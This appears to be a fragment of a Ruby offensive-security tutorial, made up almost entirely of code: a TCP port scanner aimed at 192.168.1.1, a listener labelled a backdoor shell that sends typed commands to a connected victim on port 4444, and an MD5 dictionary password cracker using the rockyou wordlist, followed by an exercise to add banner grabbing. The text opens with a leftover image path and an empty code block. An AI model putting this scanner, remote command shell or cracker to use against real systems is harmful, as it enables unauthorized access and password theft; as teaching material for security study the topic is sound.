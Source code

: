 ```ruby
```
## 2. Networking (TCP Clients & Listeners)

TCP Client (Port Scanner):
```ruby

require 'socket'  

target = "192.168.1.1"  

(1..100).each do |port|  
  begin  
    socket = Socket.new(:INET, :STREAM)  
    socket.connect(Socket.pack_sockaddr_in(port, target))  
    puts "Port #{port} is open"  
    socket.close  
  rescue  
    next  
  end  
end  
```
TCP Listener (Backdoor Shell)
```ruby

require 'socket'  

server = TCPServer.new("0.0.0.0", 4444)  
puts "Listening..."  

loop do  
  client = server.accept  
  puts "Connected to #{client.peeraddr}"  

  loop do  
    print "$ "  
    cmd = gets  
    client.puts cmd  
    puts client.recv(1024)  
  end  
end  
```
3. Password Cracker (Dictionary Attack)
```ruby

require 'digest'  

def crack_hash(hash, wordlist)  
  File.foreach(wordlist) do |word|  
    word = word.chomp  
    guess = Digest::MD5.hexdigest(word)  
    if guess == hash  
      return "Password found: #{word}"  
    end  
  end  
  "Password not found"  
end  

puts crack_hash("5f4dcc3b5aa765d61d8327deb882cf99", "rockyou.txt")  
```
**Activities**
1. Write a Port Scanner with Banner Grabbing
